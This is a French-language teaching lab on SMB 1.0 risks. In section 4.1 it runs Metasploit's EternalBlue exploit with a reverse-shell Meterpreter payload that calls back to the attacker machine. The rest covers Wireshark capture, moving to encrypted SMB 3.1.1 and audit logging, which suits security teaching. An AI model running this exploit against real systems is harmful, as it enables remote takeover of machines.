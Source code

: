 # **Démonstration de failles de sécurité sur SMB 1.0 avec exploitation via Metasploit et comparaison avec SMB 3.1.1**

---

# **1. Objectifs pédagogiques**

Dans cette démonstration, vous allez :

- Comprendre les failles de sécurité associées à SMB 1.0.
- Simuler une attaque en exploitant la vulnérabilité EternalBlue (CVE-2017-0144) avec Metasploit.
- Comparer la sécurité offerte par SMB 3.1.1, qui inclut des mécanismes de chiffrement modernes.
- Utiliser des outils d'analyse réseau comme Wireshark ou Microsoft Message Analyzer pour capturer et analyser le trafic réseau SMB (SMB 1.0 non chiffré vs SMB 3.1.1 chiffré).

---

# **2. Configuration requise**

#### **Machines utilisées**

| Machine        | Rôle                       | Système d'exploitation | IP Statique     | Nom d’hôte      |
| -------------- | -------------------------- | ---------------------- | --------------- | --------------- |
| Windows Server | Contrôleur de domaine, SMB  | Windows Server 2016/2019| 192.168.1.10    | SERVER01        |
| Windows 10     | Client du domaine           | Windows 10 Pro         | 192.168.1.20    | CLIENT01        |
| Kali Linux     | Test d'attaque Metasploit   | Kali Linux             | 192.168.1.30    | KALI            |

---

# **3. Schéma réseau ASCII**

```
                                +-------------------------+
                                |      Routeur            |
                                |    Passerelle: 192.168.1.1|
                                +-------------------------+
                                          |
                                          |
                              +-----------+------------+
                              |          Réseau Local            |
                              |         (192.168.1.0/24)         |
                              +-----------+------------+
                                          |
              +-------------------+       +-------------------+      +-------------------+
              |  Windows Server    |       |  Windows 10       |      |  Kali Linux       |
              |   (AD & SMB)       |       |   (Client)        |      |  (Metasploit)     |
              |   IP: 192.168.1.10 |       |   IP: 192.168.1.20|      |   IP: 192.168.1.30|
              +-------------------+       +-------------------+      +-------------------+
              |  Domaine: cafe.local       |  Domaine: cafe.local     |   Test d'attaque  |
              |  SMB 1.0 & 3.x             |  DNS: 192.168.1.10       |  (Metasploit)     |
              +-------------------+       +-------------------+      +-------------------+
```

---

# **4. Étapes détaillées**

#### **4.1. Activation et simulation d'une attaque SMB 1.0**

1. **Activer SMB 1.0 sur le serveur Windows :**

   ```powershell
   # Activer SMB 1.0 pour la démonstration
   Set-SmbServerConfiguration –EnableSMB1Protocol $true
   ```

2. **Simulation d'une attaque avec Metasploit (exploitation EternalBlue) :**

   Sur **Kali Linux**, lancez Metasploit pour exploiter la vulnérabilité EternalBlue :

   ```bash
   msfconsole
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST 192.168.1.10  # IP du serveur Windows
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST 192.168.1.30  # IP de Kali Linux
   exploit
   ```

3. **Montrer les résultats aux étudiants :**
   Après exploitation, Metasploit vous donne accès à une session **Meterpreter** sur la machine cible. Montrez comment un attaquant peut prendre le contrôle de la machine cible en raison de l'utilisation de SMB 1.0.

---

#### **4.2. Capture et analyse du trafic SMB 1.0 avec Wireshark**

1. **Lancer Wireshark** sur Kali Linux ou une autre machine pour capturer le trafic réseau entre la machine Windows 10 et le serveur Windows avec SMB 1.0 activé.

2. **Capturer le trafic SMB 1.0** pendant un transfert de fichier entre les deux machines via un partage SMB.

3. **Analyser le trafic capturé** : Montrez que le contenu des fichiers est visible en clair, car SMB 1.0 ne chiffre pas les données.

   **Étapes détaillées pour la capture et analyse :**
   
   - **Lancer Wireshark** : Tapez `wireshark` dans le terminal de Kali pour lancer l'application.
   - **Sélectionner l'interface réseau** : Choisissez l'interface appropriée (généralement `eth0` pour Ethernet) et commencez la capture en cliquant sur le bouton vert **"Start"**.
   - **Effectuer un transfert de fichier** depuis le client Windows 10 vers le serveur Windows avec un dossier partagé SMB 1.0 (`\\192.168.1.10\SharedFolder`).
   - **Filtrer les paquets SMB** : Dans Wireshark, tapez `smb` dans la barre de filtre et appuyez sur Entrée.
   - **Analyser les paquets SMB Write** : Recherchez les paquets contenant les données du fichier transféré. Vous verrez que les données sont envoyées en clair.

---

#### **4.3. Passage à SMB 3.1.1 et démonstration de la sécurité**

1. **Désactiver SMB 1.0 et activer SMB 3.1.1** sur le serveur Windows :

   ```powershell
   # Désactiver SMB 1.0 et activer SMB 3.x avec chiffrement
   Set-SmbServerConfiguration –EnableSMB1Protocol $false
   Set-SmbServerConfiguration –EnableSMB2Protocol $true
   Set-SmbServerConfiguration –EncryptData $true
   ```

2. **Répéter le transfert de fichier** avec SMB 3.1.1 activé et capturer à nouveau le trafic avec Wireshark ou **Microsoft Message Analyzer**.

3. **Analyser le trafic capturé** : Montrez que les données sont maintenant chiffrées et que les informations sensibles ne peuvent plus être interceptées.

---

# **5. Export et analyse des journaux d’audit**

1. **Activer l'audit des accès SMB :**

   ```powershell
   Set-SmbServerConfiguration –AuditSmb1Access $true
   ```

2. **Afficher les événements d’audit générés :**

   ```powershell
   Get-WinEvent -LogName Microsoft-Windows-SMBServer/Audit
   ```

3. **Exporter les événements d’audit vers un fichier CSV :**

   ```powershell
   $events = Get-WinEvent -LogName Microsoft-Windows-SMBServer/Audit
   $events | Export-Csv -Path "C:\AuditSMB.csv" -NoTypeInformation
   ```

---

# **6. Comparaison SMB 1.0 vs SMB 3.1.1**

| Fonctionnalité          | SMB 1.0                     | SMB 3.1.1                   |
| ----------------------- | --------------------------- | --------------------------- |
| Chiffrement              | Aucun                       | AES-128-GCM / AES-128-CCM    |
| Vulnérabilité EternalBlue| Oui                         | Non                         |
| Intégrité des données    | Non                         | Oui (Pré-authentification)   |
| Performance              | Faible                      | Améliorée                    |
| Risques de sécurité      | Élevés                      | Réduits                      |

---

# **7. Conclusion**

Cette démonstration permet de :
- Montrer les risques d'utiliser SMB 1.0, notamment via l'exploitation de la vulnérabilité EternalBlue.
- Mettre en évidence l'importance de désactiver SMB 1.0 dans les environnements modernes.
- Enseigner la migration vers SMB 3.1.1 pour bénéficier du chiffrement et d'autres améliorations en matière de sécurité.
- Utiliser des outils comme **Wireshark** et **Metasploit** pour analyser le comportement des protocoles réseau.

